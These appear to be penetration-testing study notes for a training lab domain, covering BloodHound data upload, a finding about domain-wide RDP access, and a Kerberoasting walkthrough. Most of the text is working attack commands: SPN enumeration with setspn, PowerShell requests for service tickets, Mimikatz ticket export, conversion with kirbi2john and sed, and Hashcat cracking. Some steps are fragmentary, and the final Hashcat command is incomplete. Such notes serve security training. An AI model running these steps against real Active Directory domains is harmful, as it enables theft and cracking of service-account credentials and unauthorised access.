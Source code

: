 1. exfiltrate the dataset to our own VM or ingest it into the BloodHound GUI
2. click on the Upload Data button on the right-hand side, select the newly generated zip file, and click Open. An Upload Progress window will pop up. Once all .json files show 100% complete, click the X at the top of that window.
3. we can see that all Domain Users have RDP access over the DEV01 host. This means that any user in the domain can RDP in and, if they can escalate privileges, could potentially steal sensitive data such as credentials. This is worth noting as a finding; we can call it Excessive Active Directory Group Privileges and label it medium-risk. If the entire group had local admin rights over a host, it would definitely be a high-risk finding.
# Kerberoasting - from Windows
## Enumerating SPNs with setspn.exe
```
C:\> setspn.exe -Q */*
```
### using PowerShell, we can request TGS tickets for an account in the shell above and load them into memory
#### Targeting a Single User
```
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
```
```
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
#### Retrieving All Tickets Using setspn.exe
```
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q / | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
#### tickets are loaded, we can use Mimikatz to extract the ticket(s) from memory
##### base64 /out:true

take the base64 blob and remove new lines and white spaces since the output is column wrapped
Preparing the Base64 Blob for Cracking
```
echo "<base64 blob>" |  tr -d \\n
```
Placing the Output into a File as .kirbi
```
cat encoded_file | base64 -d > sqldev.kirbi
```
Extracting the Kerberos Ticket using kirbi2john.py
```
python2.7 kirbi2john.py sqldev.kirbi
```
This will create a file called crack_file. We then must modify the file a bit to be able to use Hashcat against the hash.
```
sed 's/\$krb5tgs\$\(.\):\(.\)/\$krb5tgs\$23\$\\1\\$\2/' crack_file > sqldev_tgs_hashcat
```
Viewing the Prepared Hash
```
cat sqldev_tgs_hashcat
```
Cracking the Hash with Hashcat
```
-m 13100
```
##### kerberos::list /export
the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run kirbi2john.py against them directly, skipping the base64 decoding step.